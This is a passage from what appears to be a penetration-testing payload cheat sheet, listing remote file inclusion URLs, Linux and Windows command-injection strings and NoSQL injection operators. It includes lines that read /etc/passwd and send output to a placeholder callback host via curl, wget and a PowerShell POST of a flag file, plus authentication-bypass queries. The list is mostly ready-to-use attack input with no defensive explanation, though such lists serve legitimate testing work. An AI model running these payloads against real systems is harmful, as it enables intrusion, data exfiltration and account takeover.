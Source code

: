 ```

# === RFI Payloads ===
http://{{CALLBACK_URL}}/shell.txt
https://{{CALLBACK_URL}}/shell.txt
//{{CALLBACK_URL}}/shell.txt
  
```

**5. Command Injection / RCE**

code Codedownloadcontent\_copyexpand\_less

```
# === Linux Payloads ===
; {{CMD}}
| {{CMD}}
`{{CMD}}`
$({{CMD}})
&& {{CMD}}
|| {{CMD}}
; ls -la;
; cat /etc/passwd;
; id;
; uname -a;
; ping -c 4 {{CALLBACK_URL}};
; curl http://{{CALLBACK_URL}}/?data=$(whoami);
; wget http://{{CALLBACK_URL}}/?data=$(cat /etc/passwd|base64);

# === Windows Payloads ===
& {{CMD}}
&& {{CMD}}
| {{CMD}}
|| {{CMD}}
& whoami
& type C:\Windows\win.ini
& ping -n 4 {{CALLBACK_URL}}
& powershell -c "Invoke-WebRequest -Uri http://{{CALLBACK_URL}}/ -Method POST -Body (Get-Content C:\Users\Administrator\Desktop\flag.txt)"
  
```

**6. NoSQL Injection**

code Codedownloadcontent\_copyexpand\_less

```
# === General Payloads (often in JSON) ===
{"$ne": "nonexistent"}
{"$gt": ""}
{"$regex": ".*"}
' || '1'=='1
' && this.password.length > 0
{"username": {"$ne": null}, "password": {"$ne": null}}
{"$where": "sleep(5000)"}
{"$where": "this.username.startsWith('admin') && this.password.startsWith('p')"}

# === Context-specific examples ===
user[$ne]=foo
password[$gt]=
user[$regex]=^admin
  
```
